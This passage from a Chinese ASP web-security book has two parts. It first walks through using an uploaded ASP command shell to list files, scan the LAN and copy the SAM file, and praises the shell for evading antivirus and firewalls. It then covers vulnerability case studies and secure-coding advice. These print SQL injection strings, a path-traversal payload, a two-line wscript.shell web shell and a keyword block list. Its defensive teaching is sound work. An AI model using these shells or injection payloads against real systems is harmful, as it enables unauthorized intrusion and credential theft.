[PAGE 36]

现在让我们把这个ASP程序传到对方主机的WEB目录下，取名为cmdasp.asp然后直接用浏览器来执行看看（如图2-7-8）。

我们直接用dir这个命令来查看对方主机上的文件列表怎么样？吃了一惊吧？是不是非常方便呢？下面再来看看我们用net view命令查看对方所在局域网上的主机列表的结果（如图2-7-9）。

最后嘛当然是要把sam拷下来研究了，我们直接用copy命令就可以了（如图2-7-10）。非常有意思的是：如果用我们刚才的那个ASP木马是无法拷贝这个SAM文件的，因为我们的权限是不够的，当我们用这个ASP程序却可以实现。





图2-7-5

图2-7-6

讲了这么多无非是向大家推荐另外一种木马的实现。用ASP程序来帮助入侵是有很多好处的：首先它不用留在内存里，所以杀毒软件是根本无法发现的，而且它应该可以绕过大部分防火墙的阻拦，因为我们是通过80端口这个合法的端口来实现我们的调用的，并没有开额外的端口出来。我们要做的就是要找到一个有WEB目录的用户密码，然后把我们的程序隐藏到对方目录下的一个文件里，方便以后我们随时调用，或者也可以在每次用后删除掉。毕竟这绝对是一种非常隐蔽而且很有新意的入侵不是吗？

### 2.8 ASP程序漏洞实例解析

在ASP程序设计中，由于程序员本身疏忽而造成的漏洞很多，其中包括一些网上有名的程序，入侵者经常会利用这些程序漏洞进一步入侵主机。下面通过2个实例来讲解一下常用漏洞的利用和解决方法。

#### 一、一个小型电子商务网站

一个朋友应邀为一个小区写了一个ASP的购物网站，网站功能为在线注册用户资料，网上报价，网上订购，货到付款。由于只是为一个小区内服务，程序不是很大，为了安全，决定不采用网上免费电子商务程序，而是自己写一个，工作量不是很大。完成之后，便叫我过去测试一下安全性能。

下面是我的检测过程，请看一下我的检测思路，相信对以后从事编程工作有一定的帮助！

登录网站后，感觉页面美工挺好，网站主要部分是会员注册，热卖商品，特价商品展示，由于是货到付款，所以要求用户注册详细的个人资料，于是我便注册了一个用户名：netone，密码为cexo，登录成功后，首页上显示：“netone，欢迎您的到来，您有一封新的短消息！”打开短消息后有站长的一个欢迎信。好，开始检测！

+   1. 一般ASP程序设计中用户名和密码验证的SQL语句为：

```
mysql= "select * from user where userid='"&userid&"' and pwd='"&pwd&"'"
```

这里就有一个特殊字符过滤的问题，如果采用特殊字符，如netone' or '1就已经跳过了密码限制，SQL语句变为：

```
mysql="select * from user where userid=netone or '1'1 and pwd='&pwd&'"
```

众所周知，程序对or后面的语句只要有一个为真就不进行比较而直接认为整个语句为真。解决办法：这是一个很早的漏洞，网上的程序一般都修补了这个漏洞，但如果编程者一不小心，很容易犯这个错误，其实只要在表格提交语句userid = Trim(Request("userid"))改为userid=replace(trim(request("userid")),"'"," ")，即把特殊字符'用空格代替即可。

没想到我这位朋友居然也出现这种错误，用netone' or '1成功登录，而且首页上出现“netone' or '1，欢迎您的到来，您有9封新的短消息。”一看短消息，居然所有的短消息全部列了出来，看来是用户名出现混乱导致，其中一个短消息是我朋友发给另外一个管理员的，告诉他管理页面在“/goadmin”，而且在短消息中写出了用户名和密码。赶紧进入管理页面，可以添加商品，添加公告，查看用户资料，还看见有3个管理员，但密码是用*号表示。怎么办？很简单，在浏览器上点查看源代码，在密码行处的代码如下`<input type="hidden" name="pass" value="admin">`这个value就是密码，赶紧把3个管理员账号和密码记下。好了，到了这一步，赶紧通知我朋友，他倒也改得快，马上就改动完毕，接着测试吧！

+   2. 改了之后，用netone' or '1进入不了，怎么办？再进入管理页面，管理员账号和密码都改了，刚才的密码白看了。再联想到用netone' or '1进入后出现的短消息混乱的情况，可以推测，短消息显示页面肯定也存在问题。短消息页面是user_sms.asp，而显示某条消息的页面为user_sms_show.asp?id=?，在未登录情况下，输入user_sms.asp，系统提示尚未登录。看来这个页面还是设置了session以限制非法访问，于是用netone登录，查看我的短消息的页面为user_sms_show.asp?id=7，我试着把id=7改为别的数字，居然也进入了。这说明user_sms_show.asp这个页面只是简单地用session来查看对方是否登录，而不去查看短消息是否是发给此用户，所以可以造成越权查看别人的短消息。而正好，此时我朋友也是通过发短信给另外2个管理员，通知他们更改后的用户名和密码，而且由于注册会员很少，我一个一个短消息测试，查到了发给其他管理员的短消息，从而成功地又搞到了用户名和密码！

解决办法：给每一个用户设置一个识别符，在短消息传送时，既要鉴定session是否登录成功，还要查看每条短消息的ID与用户识别码是否符合。同样，通知我朋友更改一下，但他嫌更改麻烦，干脆把短消息功能去掉！也好，那接着进行下一步吧！

+   3. 又在整个网站看了一遍，感觉别的漏洞基本上没有了，因为这本来就是一个小型的电子商务程序，本身页面比较少。再有就是程序的数据库泄露的问题了。由于采用Access作为数据库，而数据库文件可能被非法下载，那就测试一下它的数据库吧。如何知道它的数据库位置？一般是有一个专用目录来存放的，既然要检测，当然就要有耐心，一个个试吧。输入/data/，返回的信息显示：file not found，说明没有这个目录。接着看，/database/，/datas/，/databases/，均不对。再看看它的网站名称，由于是一个购物网站，名称为qgo，所以猜测数据库可能在/qgodata/下，在浏览器下输入，返回：“你无权查看该页字样”，这说明此目录存在，判断正确，但还是不知道具体是什么文件。又忙了半天，想到ASP中一般将数据库连接方式保存为一个文件，而这个文件一般以inc结尾，或者保存在一个inc文件夹中；一般是conn.inc文件，而这个文件是可以读出来的，从而有可能泄露数据库文件甚至管理员密码。于是接着测试，终于找到conn.inc文件位于inc子目录，输入\inc\conn.inc后，浏览器没有返回任何信息，说明文件存在；赶紧用flashget下载，打开，数据库文件为/qgodata/qgaodata.mdb，下载打开，全部记录都在，包括所有用户资料，管理员密码。

解决方法：把inc文件改为ASP后缀，同时把数据库文件也改为ASP后缀并更改连接文件中的语句！测试到现在为止，这个程序一般的漏洞基本上都存在，很具有普遍性。到现在为止，我们已经找到很多漏洞并成功修补！

#### 二、一个免费空间提供程序的漏洞

主页提供更是一个大问题。除了程序设计问题，还牵涉到管理员权限分配的问题，尤其是Windows下提供空间，如果开放ASP权限，更要注意安全问题。下面是一个网上常见的免费ASP空间提供程序，我们来分析一下其安全性能。

该程序提供在线注册，Web上传方式，我在自己的机器上开了个IIS进行测试，发现注册完毕后登录进入/os/default.asp界面，在这个页面，可以对已有文件编辑、删除。另外，还可以Web上传文件，在这些操作中，浏览器的地址栏始终显示的是default.asp，但肯定中间操作调用其他文件。细心一看，比如在对某个文件进行编辑时，点击编辑图标时，浏览器的状态栏显示`edit.asp?filename=d:\home\homepage\netone\index.htm&task=read`，这就出现了一个漏洞，泄露了物理路径，而且通过这种方法发现总的文件调用是用`files.asp?sPath=D:\home\homepage\netone`形式，在浏览器下输入此地址，则列出了此目录下的文件名，同时还有编辑文件、上传文件的页面。更大的漏洞是，把后面的地址改为`d:\home`居然也显示出home下的文件夹，接着又改为`c:\`，`d:\`，全部列举出来了。然后退出，再输入`files.asp`或是`edit.asp`，均出现了出错页面，说明这2个文件对登录进行了限制，但是输入完整的路径，如`edit.asp?filename=d:\home\homepage\netone\index.htm&task=read`或是`files.asp?sPath=D:\home1\homepage\netone\`居然不报错，直接进入。看来这2个文件对登录限制有很大的问题。

解决方法：在浏览器下进入操作界面后自动在地址栏下隐藏实际的URL，但状态栏中全部显示了，所以第一个办法是不让状态栏显示，可以用JavaScript特效来使状态栏显示特定字符，/*如欢迎等，一个简单的代码如下：

```
javascript
<script language="Javascript1">
<!-- 
myMsg = "welcome to our site! "
i=0
function scrollMsg( ) {
  frontPart = myMsg.substring(i, myMsg.length)
  backPart = myMsg.substring(0, i)
  window.status = frontPart + backPart
  if (i < myMsg.length) {
    i++
  }
  else {
    i = 0
  }
  setTimeout("scrollMsg()", 50)
}
window.onload=scrollMsg
// -->
</script>
```

但这样还是解决不了根本问题，关键是`files.asp`和`edit.asp`要对用户登录进行验证，同时要验证URL中的输入字符，或者不允许从外部递交URL，从而限制提交的URL中出现`d:\`，或`e:\`。

设置一个检查函数`function ChkPost()`如下：

[PAGE 39]

```
vb
dim server_v1,server_v2
chkpost=false
server_v1=Cstr(Request.ServerVariables("HTTP_REFERER"))
server_v2=Cstr(Request.ServerVariables("SERVER_NAME"))
if mid(server_v1,8,len(server_v2))<>server_v2 then
    chkpost=false
else
    chkpost=true
end if
end function
```

这个函数即可有效地检查对方提交的URL是否来自外部！

通过以上2个例子可以看出程序设计在过程中的重要性。Web程序设计存在很大的问题，同时也是很容易忽视的，对于这样的漏洞，不是打上一两个补丁就能完事，而要在实际过程中，多多总结，多多测试！

### 2.9 ASP代码源程序下载后安全使用初识

#### 一、开篇初衷

网络发展速度之快不容置疑，漏洞层出不穷更让站点管理者脑筋紧绷，经常出没各大安全站点漏洞发布区，以便了解第一手资料，做到防护为先，现在已不是站点管理者杞人忧天了。不过，近日见到这样的漏洞报道：

> > [Web Wiz Forums 存在密码泄露缺陷]
>
> **涉及程序：**
> Web Wiz Forums
>
> **描述：**
> Web Wiz Forums 存在密码泄露缺陷。
>
> **详细：**
> Web Wiz Forums是一款功能强大的免费ASP电子公告牌系统。由于在缺省的情况下，密码文件是存储在admin/wwforum.mdb文件中，攻击者通过向目标服务器提交精心构造的下列格式的临时HTTP能获得密码文件：
>
> http://www.target.com/forum/admin/wwforum.mdb
>
> **攻击方法：**
>
> **示例代码：**
>
> http://www.target.com/forum/admin/wwforum.mdb

看了文章，感觉并不是什么程序本身存在重大漏洞，或者说根本不是什么漏洞。如果这样也算漏洞，我想我可以发现几千例，这只是站点管理员的疏忽以及对安全性的无知，作为从资源站下载来的程序，直接使用无非是对安全的忽略，尤其是以MDB为后缀的Access数据库，应更改数据库原始名称，或者更改数据库[名称+路径]，以达到安全目的。

#### 二、认识ASP

ASP全名Active Server Page，ASP并不是一种语言；而是一个Web服务器端的开发环境，利用它可以产生和运行动态的、交互的、高性能的Web服务应用程序。

ASP的特征：
- 完全和HTML集成；
- 易于生成，无需手工编译和连接；
- 面向对象，可以扩展ActiveX Server构件。

#### 三、ASP程序安装安全初识

作为一个站点的拥有者，你很容易就可以在资源下载站点搜索到你想要实现功能的ASP程序，因为投身于这一程序设计的人员已经相当广泛，同等功能的ASP源程序也是争奇斗艳，有的功能更为强大，有的界面更为科技。不过，作为一个网站管理维护人员（站长）要认识到：安全也应放在重点考虑之列。ASP源程序安全方面代码漏洞不是初级站长所能够预见和修补的，需要我们不断地去学习和搜集资料，取得第一手信息，才能够避免你的爱站被HACK；而由于个人使用导致安全系数降低，这是我要讲解的地方。

现在多数的ASP程序使用的是MDB格式的数据库，也就是Access制作而成的，这样的数据库文件在IE中是可以直接提交路径下载的。如果你下载了一个ASP程序，直接使用的话，别人可以轻松下载你的数据库文件，我利用这种管理员的疏忽轻松地夺取了某站交友列表权限，如果数据库的位置被泄露那就相当危险了。为了避免ASP程序的数据库文件位置被发现，首先就是要更改MDB的文件名字，不过也要同时更正调用文件中MDB的文件名，到底哪个调用文件需要更正以及哪个文件中存在MDB数据库文件名，一个个去查看源代码？小程序还可以，如果像“江湖”这样的大型程序，ASP文件有几十个，这样我们可以借助工具来实现，我们向大家介绍一个工具[批量文件播种机] 5.50版本，可以实现整个程序代码查询及代码替换的功能，是站点管理人员的必备；通过这个工具可以轻松查找到数据库调用文件及数据库文件所在调用文件的位置，并能够整体替换以及随心所欲地更换数据库文件所在的目录，这样就可以解决上述问题。还有一点，ASP程序基本上都有管理界面及超级管理ID，我们可以将管理界面临时删除，何时使用何时上传，这样也可以减少一些安全风险。

编者语：对管理界面或关键设置程序进行文件名替换或删除的确可以从某种程度上保证自己站点的安全。这样即使管理员密码被人窃取，也不会对论坛造成非常重大的损失。不错的方法哦！

#### 四、[批量文件播种机]实现提高ASP程序安全系数

##### 1. 打开[批量文件播种机]

如图2-9-1所示，此软件分为4个区域，即文件目录显示区、文件目录文件显示区、主按钮区、文件代码显示区。文件目录显示区显示文件的具体目录及选定目录的上、下级目录；文件目录文件显示区显示所选定目录中的具体文件名，鼠标点中后，文件代码显示区将显示相应文件的具体代码，便于操作且可视性强，主按钮区包括6个常规按钮，下面将具体介绍。



图2-9-1

##### 2. 点击“选定目录”

点击“选定目录”按钮来界定批量文件播种机处理文件的范围，以动网文章管理系统为例，选中后点击“确定”，如图2-9-2所示。



图2-9-2

##### 3. 搜索文件

点击“设定文件”，将需要进行操作的文件类型选中，再点击“确定”后，按下“搜索文件”按钮，将出现新复选框，在搜索代码区域添写所需搜索的代码，以搜索MDB数据库文件及存在MDB数据库调用文件为例，搜索存在MDB数据库调用的文件及所在位置，以便更改，如图2-9-3所示。当然，你也可以根据需要搜索你想要改动的文件及数据。



图2-9-3

##### 4. 常规操作

实现批量的更改MDB文件名，如果在批量替换时，将*.mdb更换为“../*.mdb”，可实现更改MDB文件的调用路径。当然，你同时也需要将MDB文件实际保存或移动到所转换的位置。如果数据库本身为ASP后缀的调用形式，也可以通过此方法将路径及文件名更改，如图2-9-4所示。以动网文章为例，是属于ASP后缀数据库形式。将要替换的内容及所要替换成的内容填写好后，点击“加到替换列表”，确定后，点击主面板上的常规按钮“处理文件”即可实现数据库文件名及文件位置的更改，实现初级安全设置。

安全措施补充说明：
- 1. 尽量禁止程序中的upload功能，或者尽可能缩小界定上传文件的后缀类型范围，因为入侵爱好者可以通过上传危险文件从而达到浏览整站内容及夺取服务器ADMIN权限的可能。
- 2. 经常到所下载程序的官方站点查看是否有其升级程序及漏洞补丁包。
- 3. 尽量选用经常升级的程序，这种防黑大战程度相对比较高，毕竟程序员勤快起码是对使用者负责任的。批量文件播种机程序下载见光盘。

### 2.10 书写安全的ASP程序

#### 一、输入有效性

##### 1. SQL Injection问题

Asp程序通常是动态地创建SQL查询语句，像下面这样：

```vb
strSQL="select * from users where username='" & _
request.form("username") & "' and password = '" & _
request.form("password") & "'"
```

其中，request.form就是获得用户在html表单中输入的内容，但是上面的ASP语句却没有检查ASP程序中用户输入的内容，这就导致了用户可以输入任何内容来构成SQL查询语句，从而可以提交任意的SQL查询。

现在，让我们来看一个登录表单的脚本例子，这里脚本试图获得用户提交给ASP程序的用户名和密码。下面一部分代码是证明用户是否提交了一个有效的用户名和密码：

```vb
username = request.form("username")
password = request.form("password")
strSQL = "select * from users where username ='" & username & _
"' and password = '" & password & "'"
set objRS = objDB.execute(strSQL)
if ( objRS.EOF ) then
response.redirect("LoginFailed.asp")
end if
...( 用户有效，进行其他的过程 )
```

当用户名和密码能在数据库查到时，就继续运行，如果查不到的话（即 objRS.EOF 为空），则重定向到LoginFailed.asp页面。

下面，我们来分析一下脚本中的问题，假如用户提交了如下数据：

```vb
Username: shocker
Password: 1234567
```

那么，这个字符串 "strSQL" 就变成了：

```vb
select * from users where username = 'shocker' and password = '1234567'
```

这时，脚本可以很好地运行。如果数据库中有shocker这个用户并且密码是1234567的话，SQL查询就会找到所有关于shocker这个用户资料的字段，但是如果我们提交的是：

```vb
Username: shocker'--
Password: abcdefg
```

这个字符串"strSQL"就变成了：

```vb
select * from users where username = 'shocker'--' and password = '1234567'
```

这时，SQL查询就会找到用户名为shocker的行的所有字段，而不会考虑密码的问题。因为有两个连续的短横线（--）这个符号，这个在SQL中代表注释符，它后面的内容都会成为注释内容。更进一步的话，如果我们提交：

```vb
Username: shocker' drop table users--
Password: 1234567
```

我们就可以删除users表，如果'号后面还有别的内容，都会被SQL很好地运行，这就是我们常说的SQL Injection技术。使用它可以攻击存在问题的ASP脚本，来进行SQL查询和利用SQL Server的存储过程。一般利用的存储过程有：xp_cmdshell、sp_OACreate、sp_OAMethod、sp_OAGetProperty、xp_regwrite、xp_servicecontrol、sp_addlogin、sp_addsrvrolemember等等，为解决这个问题，我们可以选择3种办法：
- 1. 不允许输入已知的带有攻击性的内容；
- 2. 只允许输入可以输入的内容；
- 3. 过滤'符号。

这3种方法都有各自的优点和缺点，先说第一种方法，如果我们不允许输入已知的带有攻击性的内容，我们应该这样书写一个函数：

```vb
function validate( input )
    bad_strings = Array( "'", "select", "union", "insert", "--" )
    for each i in bad_strings
        if ( InStr( input, i ) <> 0 ) then
            validate = false
            exit function
        end if
    next
    validate = true
end function
username = request.form("username")
password = request.form("password")
if ( not validate(username) or not validate(password) ) then
    response.redirect("invalid_input.asp")
end if
```

这种方法的缺点就是，如果我们想要用户可以输入O'Brien这样的名字，那用这种方法就不行了。第二种方法是仅仅允许用户输入可输入的内容，我们只要定义字符串集，让用户只可以输入字符串集中的内容即可。举个例子，比如我们想要验证用户输入的name、password、integer和session_id变量，我们可以这样写一个有效性检查函数：

```vb
function validate( input, datatype )
good_name_chars = "abcdefghijklmnopqrstuvwxyz ABCDEFGHIJKLMNOPQRSTUVWXYZ'_-"
good_password_chars = "abcdefghijklmnopqrstuvwxyz ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"
good_number_chars = "0123456789"
good_sessionid_chars = "ABCDEF0123456789"
validate = true
select case datatype
case "name"
for i = 1 to len( input )
c = mid( input, i, 1 )
if ( InStr( good_name_chars, c ) = 0 ) then
validate = false
end if
next
case "password"
for i = 1 to len( input )
c = mid( input, i, 1 )
if ( InStr( good_password_chars, c ) = 0 ) then
validate = false
end if
next
case "number"
for i = 1 to len( input )
c = mid( input, i, 1 )
if ( InStr( good_number_chars, c ) = 0 ) then
validate = false
end if
next
case "sessionid"
for i = 1 to len( input )
c = mid( input, i, 1 )
if ( InStr( good_sessionid_chars, c ) = 0 ) then
validate = false
end if
next
end select
end function
```

但是重要的一点是，我们允许用户输入的name中含有'号、-号等符号，这就又导致了用户可以提交：

```text
Username: shocker'--
```

所以，我们最终要解决'号的问题，解决方法就是把'号过滤为两个'号(即'')，函数如下：

```vb
function escape( input )
    input = replace( input, "'", "''" )
    escape = input
end function
```

最好的办法就是把3种方法结合起来，还有就是不要用SA权限连接SQL Server服务器。

##### 2. E-mail handling问题

现在，许多ASP程序都有发送E-mail的功能；但是许多发送E-mail的对象，并没有检查用户输入的有效性。让我们先来看一下SMTP的命令。SMTP服务器发送E-mail的过程所用命令及回应大概如下：

```text
< 220 mail.example.net ESMTP Thu, 3 Jan 2002 18:16:35 +0000
> HELO client
< 250 mail.example.net Hello client [10.1.1.1]
> MAIL FROM: <joe.blow@example.net>
< 250 <joe.blow@example.net> is syntactically correct
> RCPT TO: <foo.bar@example.net>
< 250 <foo.bar@example.net> is syntactically correct
> DATA
< 354 Enter message, ending with "." on a line by itself
> Subject: Test mail
> Date: Thu, 3 Jan 2002 18:14:45 -0000
>
> Got it.
> :o)
>
> —joe
> .
>
< 250 OK id=12345
> QUIT
< 221 mail.example.net closing connection
(server closes connection)
```

如果用户输入.号的话，那么就等于一行结束，这就相当于SQL中的；号。这样，用户就可以提交.号来分割行，类似SQL注入那样。攻击者可以提交更多的收信人、发信人或者带有攻击性的MIME编码的文件附件。有关更详细的内容可以参看http://www.ngssoftware.com/papers/aspmail.pdf这篇文章。

##### 3. 父级路径问题

假如我们的ASP程序中有如下代码：

```vb
filename = "c:\logs\" & username
set fs = createobject( "scripting.filesystemobject" )
set f = fs.OpenTextFile( filename, 8, True)
f.writeline message
f.close
set f = nothing
set fs = nothing
```

这时，如果用户输入的username变量为..\..\..\..\..\inetpub\wwwroot\runcmd.asp的话，那我们就可以创建一个runcmd.asp在默认的Web站点下。如果message变量的内容用户可以控制的话，那用户可以提交如下的内容从而制造一个Web Shell。

```asp
<% set o = server.createobject("wscript.shell")
o.run( request.querystring("cmd") ) %>
```

在IIS 5以前的版本中，这个wscript.shell对象将是以system账号运行命令的，所以可以运行只有管理员才能运行的命令。

以上3点都要求程序编写者要注意用户输入内容的有效性检查，其实这已经是老生常谈了，但问题依然还是广泛存在。

#### 二、SESSION变量

先给一个例子程序：

```vb
<%@LANGUAGE = "VBSCRIPT"%>
<%session("username") = request("username")%>
<%
strErr = ""
if request("action") = "login" then
    Set Conn = Server.CreateObject("ADODB.Connection")
    Conn.Open "DRIVER={Microsoft Access Driver (*.mdb)}; DBQ=" & _
        Server.MapPath("forum.mdb")
    SQL = "select username, password from users where username = '" 
        & request("username") & "'"
    set RSuser = Conn.execute(SQL)
    if RSuser("password") = request("password") then
        Response.Redirect("list.asp")
    else
        strErr = strErr & "Invalid password"
    end if
elseif request("action") = "register" then
    ............
%>
```

这个程序首先给SESSION变量username赋值，但是如果用户提交的action没有与程序中任何一个匹配，那么即使程序没有运行，但是SESSION也存在了。这样，攻击者就可以构造任意用户的username的SESSION变量。解决方法就是一定要注意SESSION的销毁问题。

#### 三、源代码泄露的问题

有些编辑软件在修改完文件后会产生一个.bak的同名文件，比如下面的样子：
- login.asp
- login.bak
- login.old
- login.asp.bak
- login.asp.old
- login.asp.2
- Copy of login.asp
- Copy (2) of login.asp

但是，.bak、.old的文件是不被Web服务器软件解释的，这样当用户提交url来获得这些文件的时候，他将得到的是源代码。还有就是一些.inc的配置文件也会存在代码泄漏问题，所以在写程序的时候一定要注意给这些文件都加.asp的后缀，这样才能隐藏它们的内容从而不被浏览者获得。

#### 四、调试代码

有些ASP程序员喜欢在程序中加个标志调试的变量，比如：

```
text
debug=true
debug=1
trace=on
log=on

```

